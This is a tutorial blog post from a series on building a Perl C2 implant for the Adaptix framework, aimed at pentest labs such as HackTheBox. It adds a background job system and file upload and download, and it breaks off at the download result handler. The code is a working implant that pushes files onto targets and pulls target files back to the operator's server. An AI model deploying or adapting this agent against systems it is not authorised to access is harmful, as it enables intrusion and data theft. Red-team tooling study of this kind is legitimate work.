










This is part 3 of the Lamperl series. Previously we created the basic agent and listener, then added sleep/terminate support and explored adding items to the agent's context menu.

In this post we'll be adding support for uploading and downloading files, as well as implementing a comprehensive job control system. The job system will actually take up the majority of the work, as both upload and download will leverage it for asynchronous execution.

Originally when I wrote this I started with upload/download, however since both of those functions will use the jobs system it makes most sense to start with it instead. As you'll see, this doesn't change the implementation much.

## Understanding Jobs vs Tasks

Before we dive into implementation, let's clarify what distinguishes a job from a task in the context of Adaptix:

**Tasks** (TYPE_TASK = 1):
- Execute and complete immediately
- Return results in a single response
- Examples: `pwd`, `cd`, `cat`, `ls`
- Task results are processed immediately and displayed to the operator

**Jobs** (TYPE_JOB = 3):
- Asynchronous operations that run in the background
- Can take extended periods to complete (or never complete at all)
- Report multiple outputs over time
- Examples: `run`, `download`, `upload`, scans, monitoring tools
- Jobs can report different states:
  - `JOB_STATE_RUNNING` - Job is still executing, here's some output
  - `JOB_STATE_FINISHED` - Job completed successfully
  - `JOB_STATE_KILLED` - Job was terminated

When rolling through a machine on Vulnlab or HackTheBox I don't want long-running commands blocking the beacon loop, the agent needs to continue checking in regularly to get new jobs while existing jobs execute in the background.

## The Async Wrapper Pattern

The centerpiece of the job system is a higher-order function that can convert any synchronous command into an asynchronous job. This is a powerful pattern that eliminates code duplication and provides consistent behavior across all async operations.

### The make_async Function

```perl
# Async wrapper - converts any command function into an async job
# Usage: my $async_cmd = make_async(\&cmd_download, 'download');
#        my $result = $async_cmd->($task);
sub make_async {
    my ($cmd_func, $command_name) = @_;
    
    return sub {
        my ($task) = @_;
        my $task_id = $task->{task_id};
        
        # Create a pipe for output capture
        pipe(my $read_fh, my $write_fh) or return {
            command => $command_name,
            error   => "Failed to create pipe: $!",
        };
        
        my $pid = fork();
        
        if (!defined $pid) {
            close($read_fh);
            close($write_fh);
            return {
                command => $command_name,
                error   => "Failed to fork: $!",
            };
        }
        
        if ($pid == 0) {
            # Child process
            close($read_fh);
            
            # Redirect STDOUT and STDERR to pipe
            open(STDOUT, '>&', $write_fh) or exit(126);
            open(STDERR, '>&', $write_fh) or exit(126);
            close($write_fh);
            
            # Execute the command function and print result as JSON
            eval {
                my $result = $cmd_func->($task);
                print $json->encode($result);
            };
            
            if ($@) {
                print STDERR "Error: $@\n";
                exit(125);
            }
            
            exit(0);
        }
        
        # Parent process
        close($write_fh);
        
        # Set non-blocking on read handle
        my $flags = fcntl($read_fh, F_GETFL, 0);
        warn "Can't get flags: $!" unless defined $flags;
        fcntl($read_fh, F_SETFL, $flags | O_NONBLOCK) or warn "Can't set non-blocking: $!";
        
        # Store job info with output file handle
        # Extract executable and args for display using dispatch table
        my ($executable, $args_str) = ('', '');
        if (my $display_fn = $job_display{$command_name}) {
            ($executable, $args_str) = $display_fn->($task);
        }
        
        $jobs{$task_id} = {
            pid        => $pid,
            command    => $command_name,
            args       => $task,
            executable => $executable,
            args_str   => $args_str,
            output_fh  => $read_fh,
            output     => '',
            status     => 'running',
            start_time => time(),
            exit_code  => undef,
        };
        
        return {
            command => $command_name,
            job_id  => $task_id,
            pid     => $pid,
            async   => 1,
            %{$task},  # Include original task parameters
        };
    };
}
```

This wrapper is handling process management:

1. Pipe Creation: Creates a unidirectional pipe for capturing output from the child process
2. Fork: Spawns a child process to execute the command
3. I/O Redirection: In the child, redirects both STDOUT and STDERR to the write end of the pipe
4. Command Execution: Runs the actual command function and encodes its result as JSON
5. Non-blocking I/O: Configures the read handle as non-blocking in the parent
6. Job Registration: Stores comprehensive job metadata in the `%jobs` hash
7. Immediate Return: Returns control to the beacon loop with job metadata

The key insight is that `make_async` returns a closure; a new function that wraps the original command. This means we can create async versions of any command with a single line:

```perl
my $cmd_run = make_async(\&cmd_run_sync, 'run');
my $cmd_download = make_async(\&cmd_download_sync, 'download');
my $cmd_upload = make_async(\&cmd_upload_sync, 'upload');
```

#### Job Display Metadata

To support clean job listing, we also create a dispatch table for extracting display-friendly information from different job types:

```perl
# Dispatch table for job display info
my %job_display = (
    run      => sub { my $args = shift; return ($args->{executable} || '', $args->{args} || ''); },
    download => sub { my $args = shift; return ('download', $args->{path} || ''); },
    upload   => sub { my $args = shift; return ('upload', $args->{path} || ''); },
);
```

This pattern keeps the display logic centralized and extensible. When we add new async commands, we also add an entry here.

## Job State Management

Jobs are tracked in a hash keyed by Adaptix `task_id`:

```perl
my %jobs = ();  # task_id => { pid, command, args, output, output_fh, status, start_time, reported }
```

Each job entry contains:
- `pid`: Process ID of the forked child
- `command`: Command name
- `args`: Full task object for reference
- `executable`: Display name extracted via job_display
- `args_str`: Arguments string for display
- `output_fh`: Non-blocking file handle for reading child output
- `output`: Accumulated output buffer
- `status`: Current state (running, finished, error, killed)
- `start_time`: Unix timestamp when job was created
- `exit_code`: Process exit code
- `reported`: Boolean flag tracking whether completion was sent to C2

### Checking Job Status

The `check_jobs` function is called before each beacon to update job states:

```perl
# Check job statuses
sub check_jobs {
    foreach my $job_id (keys %jobs) {
        my $job = $jobs{$job_id};
        
        next if $job->{status} ne 'running';
        
        # Read available output from pipe (non-blocking)
        if ($job->{output_fh}) {
            my $buffer;
            while (sysread($job->{output_fh}, $buffer, 4096)) {
                $job->{output} .= $buffer;
            }
        }
        
        # Check if process has finished (non-blocking)
        my $result = waitpid($job->{pid}, WNOHANG);
        
        if ($result > 0) {
            # Process has finished - read any remaining output
            if (my $fh = delete $job->{output_fh}) {
                my $buffer;
                $job->{output} .= $buffer while sysread($fh, $buffer, 4096);
                close($fh);
            }
            
            $job->{exit_code} = $? >> 8;
            $job->{status} = 'finished';
        } elsif ($result == -1) {
            # Process no longer exists
            close(delete $job->{output_fh}) if $job->{output_fh};
            $job->{status} = 'error';
        }
        # result == 0 means still running
    }
}
```

This function:
- Iterates only over jobs with 'running' status
- Performs non-blocking reads from output pipes (won't hang if no data)
- Drains any remaining output when a process finishes
- Extracts the exit code using bitshift (`$? >> 8`)
- Handles orphaned processes (result == -1)

### Automatic Completion Reporting

Finished jobs are automatically included in the next beacon:

```perl
# Get completed jobs that haven't been reported yet
sub get_completed_jobs {
    my @completed;
    
    foreach my $job_id (sort keys %jobs) {
        my $job = $jobs{$job_id};
        
        # Skip if not finished, killed, or already reported
        next if $job->{status} =~ /^(running|killed)$/;
        next if $job->{reported};
        
        # Mark as reported
        $job->{reported} = 1;
        
        # Try to parse output as JSON first (for download/upload commands)
        my $result = eval { $json->decode($job->{output} || '{}') };
        
        # If JSON parsing failed, treat as raw output (for run commands)
        unless ($result && ref($result) eq 'HASH' && $result->{command}) {
            $result = {
                command    => $job->{command},
                executable => $job->{executable},
                args       => $job->{args_str},
                output     => process_job_output($job->{output} || '', 0),
            };
        }
        
        # Always add exit code
        $result->{exit_code} = $job->{exit_code} if defined $job->{exit_code};
        
        # Report with original task_id so the system can update the task
        push @completed, {
            task_id => $job_id,
            output  => $json->encode($result),
        };
    }
    
    # Clean up old jobs after reporting
    cleanup_jobs();
    
    return @completed;
}
```

This handles two different output formats:
- Structured commands (download/upload): Child process outputs JSON, we parse and forward it
- Raw commands (run): Child process outputs plaintext, we wrap it in a standard structure

We're using the original `task_id` when reporting completion to allow Adaptix to correlate the result with the task that started the job.

### Job Cleanup

Completed and killed jobs are automatically cleaned up:

```perl
# Clean up jobs that have been reported
sub cleanup_jobs {
    my @to_delete;
    
    foreach my $job_id (keys %jobs) {
        my $job = $jobs{$job_id};
        
        # Remove jobs that are finished and have been reported, or were killed
        if (($job->{status} eq 'finished' && $job->{reported}) || $job->{status} eq 'killed') {
            push @to_delete, $job_id;
        }
    }
    
    delete @jobs{@to_delete};
}
```

This prevents unbounded memory growth by removing jobs that have been acknowledged by the C2 or were manually terminated.



You may also been thinking: "Hey, doesn't the check_jobs function 'reap' jobs or whatever that means? Do we really need both?"

For now both functions are essential - `check_jobs()` manages the OS-level processes, `cleanup_jobs()` manages the Perl data structure. The workflow is like:

- Job starts -> stored in `%jobs` with status running
- `check_jobs()` -> reaps the process, updates status to finished, captures exit code
- `get_completed_jobs()` -> reports the finished job to C2, marks reported => 1
- `cleanup_jobs()` -> deletes the job entry from `%jobs` hash

## Job Control Commands

With the infrastructure in place, we can implement the operator-facing job control commands.

First, some utility functions for validation and output processing:

```perl
# Helper function for job validation
sub validate_job {
    my ($job_id, $command_name) = @_;
    
    unless (defined $job_id && exists $jobs{$job_id}) {
        return (undef, { command => $command_name, error => "Job not found: $job_id" });
    }
    
    return ($jobs{$job_id}, undef);
}

# Helper function to process job output
sub process_job_output {
    my ($output, $tail_lines) = @_;
    
    return '' unless $output;
    
    # Decode from UTF-8 bytes to character string
    eval { $output = decode('UTF-8', $output, Encode::FB_QUIET); };
    
    # Strip ANSI escape sequences
    $output =~ s/\x1b\[[0-9;]*[a-zA-Z]//g;
    
    # Apply tail if requested
    if ($tail_lines > 0) {
        my @lines = split(/\n/, $output);
        my $total_lines = scalar(@lines);
        
        if ($total_lines > $tail_lines) {
            my $skipped = $total_lines - $tail_lines;
            @lines = @lines[-$tail_lines .. -1];
            $output = "... [$skipped lines omitted]\n" . join("\n", @lines);
        } else {
            $output = join("\n", @lines);
        }
    }
    
    # Limit output size
    if (length($output) > MAX_OUTPUT_SIZE) {
        $output = substr($output, 0, MAX_OUTPUT_SIZE) . "\n... [output truncated at 1MB]";
    }
    
    # Encode back to UTF-8 bytes for JSON
    return encode('UTF-8', $output, Encode::FB_QUIET);
}
```

The `process_job_output` function is necessary as not all characters can be displayed in the Adaptix console:
- UTF-8 decoding
- ANSI escape sequence stripping
- Tail support (returns only last N lines if requested)
- UTF-8 re-encoding for JSON transport


### List Jobs

```perl
sub cmd_job_list {
    my ($task) = @_;
    
    # Update job statuses before listing
    check_jobs();
    
    my @job_list = map {
        my $job = $jobs{$_};
        {
            job_id     => $_,
            pid        => $job->{pid},
            executable => $job->{executable} || '',
            args       => $job->{args_str} || '',
            status     => $job->{status},
            start_time => $job->{start_time},
            exit_code  => $job->{exit_code},
        }
    } sort keys %jobs;
    
    return {
        command => 'job_list',
        jobs    => \@job_list,
    };
}
```

This returns a clean array of job metadata. Note that we call `check_jobs()` first to ensure statuses are current.

### Kill Job

```perl
sub cmd_job_kill {
    my ($task) = @_;
    my $job_id = $task->{job_id};
    
    my ($job, $error) = validate_job($job_id, 'job_kill');
    return $error if $error;
    
    if ($job->{status} ne 'running') {
        return {
            command => 'job_kill',
            error   => "Job $job_id is not running (status: $job->{status})",
        };
    }
    
    # Kill the process and update status
    my $killed = kill('TERM', $job->{pid});
    
    $job->{status} = 'killed' if $killed;
    
    return $killed
        ? { command => 'job_kill', job_id => $job_id, pid => $job->{pid}, killed => 1 }
        : { command => 'job_kill', error => "Failed to kill job $job_id (PID: $job->{pid})" };
}
```

Sends SIGTERM to the process. We mark killed jobs with a distinct status so they're cleaned up but not auto-reported as completed.

### Get Job Output

```perl
sub cmd_job_get {
    my ($task) = @_;
    my $job_id = $task->{job_id};
    my $tail_lines = $task->{tail} || 0;
    
    my ($job, $error) = validate_job($job_id, 'job_get');
    return $error if $error;
    
    # Update job status
    check_jobs();
    
    # Extract executable and args from stored job fields
    my $executable = $job->{executable} || '';
    my $args_str = $job->{args_str} || '';
    
    # Process output
    my $output = process_job_output($job->{output} || '', $tail_lines);
    
    return {
        command    => 'job_get',
        job_id     => $job_id,
        pid        => $job->{pid},
        executable => $executable,
        args       => $args_str,
        status     => $job->{status},
        start_time => $job->{start_time},
        exit_code  => $job->{exit_code},
        output     => $output,
        tail       => $tail_lines,
    };
}
```

This allows operators to check on running jobs without waiting for completion. The `tail` parameter is particularly useful for monitoring operations that output data continuously, such as pspy.



Finally we update the dispatch table with the new commands:

```perl
my %COMMANDS = (
    pwd      => \&cmd_pwd,
    cd       => \&cmd_cd,
    run      => $cmd_run,
    download => $cmd_download,
    upload   => $cmd_upload,
    sleep    => \&cmd_sleep,
    terminate=> \&cmd_terminate,
    job_list => \&cmd_job_list,
    job_kill => \&cmd_job_kill,
    job_get  => \&cmd_job_get,
);
```

## Adaptix Configuration for Jobs

### ax_config.axs

Jobs use a subcommand structure for clean organization:

```go
let _cmd_job_get = ax.create_command("get", "Get job output", "jobs get 1a2b3c4d", "Task: get job output");
_cmd_job_get.addArgString("job_id", true, "Job ID to retrieve");
_cmd_job_get.addArgInt("tail", false, "Return only last N lines (0 = all)");

let _cmd_job_list = ax.create_command("list", "List of jobs", "jobs list", "Task: show jobs");

let _cmd_job_kill = ax.create_command("kill", "Kill a specified job", "jobs kill 1a2b3c4d", "Task: kill job");
_cmd_job_kill.addArgString("job_id", true, "Job ID to kill");

let cmd_job = ax.create_command("jobs", "Long-running tasks manager");
cmd_job.addSubCommands([_cmd_job_get, _cmd_job_list, _cmd_job_kill]);
```

This creates a clean command hierarchy: `jobs list`, `jobs get <id> [<tail>]`, `jobs kill <id>`.

Don't forget to add it to the command group:

```go
if(listenerType == "LamperlHTTP") {
    let commands_external = ax.create_commands_group("Lamperl", 
        [cmd_pwd, cmd_cd, cmd_sleep, cmd_terminate, cmd_run, cmd_download, cmd_upload, cmd_job]);

    return { commands_linux: commands_external }
}
```

### pl_agent.go - CreateTask

The CreateTask function needs to route subcommands correctly:

```go
case "jobs":
    // Handle subcommands
    switch subcommand {
    case "list":
        commandData["command"] = "job_list"
    case "kill":
        commandData["command"] = "job_kill"
        jobId, ok := args["job_id"].(string)
        if !ok {
            err = errors.New("parameter 'job_id' must be set")
            return taskData, messageData, err
        }
        commandData["job_id"] = jobId
    case "get":
        commandData["command"] = "job_get"
        jobId, ok := args["job_id"].(string)
        if !ok {
            err = errors.New("parameter 'job_id' must be set")
            return taskData, messageData, err
        }
        commandData["job_id"] = jobId
        if tail, ok := args["tail"].(float64); ok && tail > 0 {
            commandData["tail"] = int(tail)
        }
    default:
        err = fmt.Errorf("unknown jobs subcommand: %s", subcommand)
        return taskData, messageData, err
    }
```

### pl_agent.go - ProcessTasksResult

An important change in `ProcessTasksResult`: we're now using `task.Message` and `task.ClearText` instead of `TsAgentConsoleOutput`. This provides better integration with Adaptix's Task Manager:




As you can see, `task.Message` displays in the message field and in the top bar when viewing task outputs, where `task.ClearText` is only saved in the task outputs view. Both display to the operator when running commands, but are saved differently.

Moving on, here's the code:

```go
case "job_list":
    if errMsg := getString(outputData, "error"); errMsg != "" {
        task.Message = fmt.Sprintf("Error: %s", errMsg)
        task.MessageType = MESSAGE_ERROR
    } else {
        jobsData, ok := outputData["jobs"].([]interface{})
        if !ok || len(jobsData) == 0 {
            task.Message = "No background jobs"
        } else {
            task.Message = "Background Jobs"
            var jobsOutput string
            jobsOutput = "Background Jobs:\n"
            jobsOutput += fmt.Sprintf("%-10s %-8s %-12s %s\n", "Job ID", "PID", "Status", "Command")
            jobsOutput += strings.Repeat("-", 80) + "\n"
            for _, jobInterface := range jobsData {
                job, ok := jobInterface.(map[string]interface{})
                if !ok {
                    continue
                }
                jobId := getString(job, "job_id")
                pid := getInt(job, "pid")
                status := getString(job, "status")
                executable := getString(job, "executable")
                args := getString(job, "args")

                // Combine executable and args into command
                cmdStr := executable
                if args != "" {
                    cmdStr = fmt.Sprintf("%s %s", executable, args)
                }

                jobsOutput += fmt.Sprintf("%-10s %-8d %-12s %s\n", jobId, pid, status, cmdStr)
            }
            task.ClearText = jobsOutput
        }
    }
```

```go
case "job_kill":
    if errMsg := getString(outputData, "error"); errMsg != "" {
        task.Message = fmt.Sprintf("Error: %s", errMsg)
        task.MessageType = MESSAGE_ERROR
    } else {
        jobId := getString(outputData, "job_id")
        pid := getInt(outputData, "pid")
        task.Message = fmt.Sprintf("Killed job %s (PID: %d)", jobId, pid)

        // Also update the original task that started this job
        originalTask := adaptix.TaskData{
            Type:        TYPE_TASK,
            TaskId:      jobId,
            AgentId:     agentData.Id,
            Completed:   true,
            MessageType: MESSAGE_SUCCESS,
            Message:     fmt.Sprintf("Job killed (PID: %d)", pid),
        }
        outTasks = append(outTasks, originalTask)
    }
```

Notice the `job_kill` handler creates an additional task update: This marks the original job task as completed in the Task Manager when manually killed.

```go
case "job_get":
    if errMsg := getString(outputData, "error"); errMsg != "" {
        task.Message = fmt.Sprintf("Error: %s", errMsg)
        task.MessageType = MESSAGE_ERROR
    } else {
        outputStr := getString(outputData, "output")
        executable := getString(outputData, "executable")
        args := getString(outputData, "args")
        jobId := getString(outputData, "job_id")
        status := getString(outputData, "status")

        // Build command string for header
        cmdStr := executable
        if args != "" {
            cmdStr = fmt.Sprintf("%s %s", executable, args)
        }

        if outputStr != "" {
            task.Message = fmt.Sprintf("Job %s output: %s", jobId, cmdStr)
            task.ClearText = outputStr
        } else {
            task.Message = fmt.Sprintf("Job %s - Status: %s (no output yet)", jobId, status)
        }
    }
```

With the code in place we now have a fully functional job system.

### ax_config.axs - Context Menu Integration

For convenience, we can add job control to the Task Manager context menu:

```go
let task_get_action = menu.create_action("Get task output", function(tasks_list) {
    tasks_list.forEach((task) => {
        if(task.state == "Running") {
            ax.execute_command(task.agent_id, "jobs get " + task.task_id);
        }
    });
});
menu.add_tasks(task_get_action, ["Lamperl"])

let task_stop_action = menu.create_action("Stop task", function(tasks_list) {
    tasks_list.forEach((task) => {
        if(task.state == "Running") {
            ax.execute_command(task.agent_id, "jobs kill " + task.task_id);
        }
    });
});
menu.add_tasks(task_stop_action, ["Lamperl"])
```

This allows right-clicking on running tasks to view output or kill them, which I think is much more convenient than typing commands. The implementation was taken almost directly from the official AxScript documentation.



## File Upload

Compared to building the job infrastructure, implementing upload is straightforward.

### Perl Implementation

First, the synchronous version that does the actual work:

```perl
sub cmd_upload_sync {
    my ($task) = @_;
    my $path = $task->{path};
    my $content_b64 = $task->{content};
    
    # Validate and decode
    unless ($path && $content_b64) {
        return { command => 'upload', path => $path || '', output => 'Missing path or content' };
    }
    my $content = decode_base64($content_b64);
    
    # Resolve path
    my $target_path = $path =~ m{^/} ? $path : "$current_directory/$path";
    
    # Write file
    my $output = do {
        if (open(my $fh, '>:raw', $target_path)) {
            print $fh $content;
            close($fh);
            'success';
        } else {
            "Failed to write file: $!";
        }
    };
    
    return { command => 'upload', path => $path, output => $output };
}
```

We're getting base64 encoded data from the server, decoding it, and saving the raw output to a file. Next we wrap it for async execution:

```perl
my $cmd_upload = make_async(\&cmd_upload_sync, 'upload');
```
Remember to add the function to the dispatch tables.

That's it! The entire upload implementation is just these two pieces. However, there is one issue. If you were to try to use the upload function as it is currently you would encounter a json parsing error, which we will fix in the next section.

### HTTP Chunked Transfer Encoding

File uploads use HTTP chunked transfer encoding. We need to update the response parser to handle this:

```perl
# Parse response body
return undef unless $response;

# Split headers and body
my ($headers, $body) = split(/\r?\n\r?\n/, $response, 2);
return undef unless $body;

# Check if response is chunked
if ($headers =~ /Transfer-Encoding:\s*chunked/i) {
    # Decode chunked encoding
    my $decoded = '';
    while ($body =~ s/^([0-9a-fA-F]+)\r?\n//) {
        my $chunk_size = hex($1);
        last if $chunk_size == 0;
        $decoded .= substr($body, 0, $chunk_size, '');
        $body =~ s/^\r?\n//;  # Remove trailing CRLF
    }
    $body = $decoded;
}

print STDERR "[DEBUG] Body after parsing: $body\n";

my $data = eval { $json->decode($body) };
```

This decoder:
- Reads the chunk size (hex number)
- Extracts that many bytes from the body
- Strips the trailing CRLF
- Repeats until a zero-length chunk is encountered

This concludes the perl implementation of the Upload functionality, on to the framework.

### Adaptix Configuration - Upload

#### ax_config.axs

```go
let cmd_upload = ax.create_command("upload", "Upload files", "upload /local/path/file.txt /remote/path/file.txt", "Task: upload");
cmd_upload.addArgFile("local_file", true);
cmd_upload.addArgString("remote_path", true);
```
We're using the `addArgFile` method to allow the api to take care of parsing the file instead of doing so manually.

### pl_agent.go - CreateTask

In this function we validate the paths then encode the file as base64 before sending it off.
```go
case "upload":
    taskData.Type = TYPE_JOB

    remotePath, ok := args["remote_path"].(string)
    if !ok {
        err = errors.New("parameter 'remote_path' must be set")
        return taskData, messageData, err
    }

    // Get file content from file_id
    var fileContent []byte
    if fileId, ok := args["file_id"].(string); ok && fileId != "" {
        fileContent, err = ts.TsUploadGetFileContent(fileId)
        if err != nil {
            return taskData, messageData, err
        }
    } else if localFile, ok := args["local_file"].(string); ok && localFile != "" {
        // Fallback to base64 encoded content
        fileContent, err = base64.StdEncoding.DecodeString(localFile)
        if err != nil {
            return taskData, messageData, err
        }
    } else {
        err = errors.New("parameter 'file_id' or 'local_file' must be set")
        return taskData, messageData, err
    }

    // Base64 encode for JSON transport
    base64Content := base64.StdEncoding.EncodeToString(fileContent)
    commandData["path"] = remotePath
    commandData["content"] = base64Content
```

This handles two input methods:
- `file_id`: File to be uploaded through Adaptix
- `local_file`: Direct base64-encoded content

### pl_agent.go - ProcessTasksResult

```go
case "upload":
    task.Type = TYPE_JOB

    asyncVal := getInt(outputData, "async")
    if asyncVal != 0 {
        // Job start confirmation
        jobId := getString(outputData, "job_id")
        pid := getInt(outputData, "pid")
        path := getString(outputData, "path")
        task.Completed = false
        task.Message = fmt.Sprintf("Uploading to: %s", path)
        task.ClearText = fmt.Sprintf("Job %s (PID: %d) started in background", jobId, pid)
    } else if errMsg := getString(outputData, "error"); errMsg != "" {
        // Error before job started
        task.Message = fmt.Sprintf("Upload error: %s", errMsg)
        task.MessageType = MESSAGE_ERROR
    } else {
        // Completion report from finished job
        path := getString(outputData, "path")
        outputStr := getString(outputData, "output")
        success := outputStr == "success"

        if success {
            task.Message = fmt.Sprintf("Upload completed: %s", path)
            task.MessageType = MESSAGE_SUCCESS
        } else {
            errorMsg := outputStr
            if errorMsg == "" {
                errorMsg = "Unknown error"
            }
            task.Message = fmt.Sprintf("Failed to upload to %s: %s", path, errorMsg)
            task.MessageType = MESSAGE_ERROR
        }
    }
```

The three-state handling:
1. `async != 0`: Job started, show confirmation
2. `error` present: Job failed before starting
3. Otherwise: Completion report from auto-reporting system

## File Download

Download follows the same pattern.

### Perl Implementation

```perl
sub cmd_download_sync {
    my ($task) = @_;
    my $path = $task->{path};
    my $task_id = $task->{task_id};
    
    # Helper for empty response
    my $empty_response = sub {
        return { command => 'download', path => $path || '', file_id => '', size => 0, content => '' };
    };
    
    # Validate path
    return $empty_response->() unless ($path && -e $path && !-d $path);
    
    # Read and encode file
    open(my $fh, '<:raw', $path) or return $empty_response->();
    my $content = do { local $/; <$fh> };
    close($fh);
    
    return {
        command => 'download',
        path    => $path,
        file_id => $task_id,
        size    => length($content),
        content => encode_base64($content, ''),
    };
}

my $cmd_download = make_async(\&cmd_download_sync, 'download');
```

The `empty_response` closure provides a consistent structure for error cases. The overall flow: we're reading a file into memory, base64 encoding it and returning.

### Adaptix Configuration - Download

#### ax_config.axs:

```go
let cmd_download = ax.create_command("download", "Download files", "download /path/file.txt", "Task: download");
cmd_download.addArgString("file", true);
```

### pl_agent.go - CreateTask:

The `CreateTask` case for download is very simple, we verify that the user has supplied a path to a target file.
```go
case "download":
    taskData.Type = TYPE_JOB

    path, ok := args["file"].(string)
    if !ok {
        err = errors.New("parameter 'file' must be set")
        return taskData, messageData, err
    }
    commandData["path"] = path
```

### pl_agent.go - ProcessTasksResult:

